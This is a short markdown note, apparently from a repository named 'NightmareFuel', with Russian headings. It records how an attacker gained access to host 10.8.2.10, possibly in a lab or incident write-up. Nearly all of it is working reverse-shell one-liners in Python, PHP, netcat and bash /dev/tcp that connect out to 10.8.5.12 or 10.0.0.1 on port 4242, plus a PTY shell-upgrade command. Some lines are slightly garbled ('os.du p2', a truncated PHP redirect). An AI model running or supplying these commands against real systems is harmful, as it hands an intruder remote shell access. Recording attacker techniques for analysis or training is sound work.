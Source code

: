 # NightmareFuel
## Хост 10.8.2.10
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

```bash
python -c 'import socket, os, pty; \
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); \
s.connect(("10.8.5.12", 4242)); \
os.dup2(s.fileno(), 0); \
os.dup2(s.fileno(), 1); \
os.du p2(s.fileno(), 2); \
pty.spawn("/bin/sh")'
```
---
Команды, с помощью которых злоумышленник получил доступ к хосту
```bash
php -r '$sock=fsockopen("10.0.0.1", 4242);exec("/bin/sh -i <")'
```
```bash
nc -e /bin/sh 10.8.5.12 4242
```
```bash
bash -i >& /dev/tcp/10.8.5.12/4242 0>&1
```



